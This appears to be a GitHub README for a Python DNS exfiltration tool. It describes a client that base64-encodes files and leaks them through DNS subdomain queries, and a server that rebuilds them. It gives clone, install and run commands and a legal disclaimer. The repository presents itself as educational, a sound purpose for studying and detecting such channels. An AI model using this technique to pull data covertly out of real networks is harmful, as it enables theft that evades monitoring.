 
# DNS Exfiltration Tool

## Overview
This project includes two main components: a DNS exfiltration client and a corresponding server. The client reads the contents of a file, encodes it using base64, and then exfiltrates the data over DNS queries to the server. The server listens for these queries, decodes the incoming data, and reconstructs the original file. This project is designed for educational purposes to demonstrate DNS exfiltration techniques.

## Components

### 1. Client (`client.py`)
The client script encodes and sends file data in chunks via DNS queries. Each query embeds data within the subdomain to be sent to the DNS server. 

#### Features:
- File encoding using base64
- Data transmission via DNS queries
- Use of unique identifiers for each session

### 2. Server (`server.py`)
The server script receives DNS queries, extracts and decodes the data, and reconstructs the original file.

#### Features:
- Listening for DNS queries on a specified port
- Decoding base64 encoded data from the queries
- File reconstruction and storage

## Installation

### Prerequisites
- Python 3.x
- `dnslib` library

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/bufo333/python-dns-exfiltration-client-server.git
   ```
2. Install required Python packages:
   ```bash
   pip install dnslib
   ```

## Usage

### Running the Client
```bash
python client.py --file <path_to_file> --domain <domain_name> --server_ip <server_ip> --server_port <server_port>
```

### Running the Server
```bash
python server.py --port <listening_port> --output-dir <output_directory>
```

## License
This project is licensed under the GPL License - see the [LICENSE](LICENSE) file for details.

## Contributing
Contributions are welcome. Please fork the repository and submit a pull request.

## Authors
- John Burns

## Acknowledgments
This project was created for educational purposes to better understand DNS exfiltration techniques. 

## Disclaimer
The DNS Exfiltration Tool is developed for educational and research purposes only. It is intended to help users learn about and study DNS exfiltration techniques in a controlled, responsible, and legal environment.

This tool should not be used on any network, system, or domain without explicit permission from the rightful owners or administrators. Unauthorized use of this tool to perform DNS exfiltration or any other form of unauthorized data extraction could violate local, state, national, and international laws.

By downloading, copying, installing, or using the software, you agree to use it in a manner consistent with your local laws. The authors of this software disclaim all liability for any illegal use of this tool and any damages that may occur from its use. It is your responsibility to comply with all applicable laws and to use the software ethically and responsibly.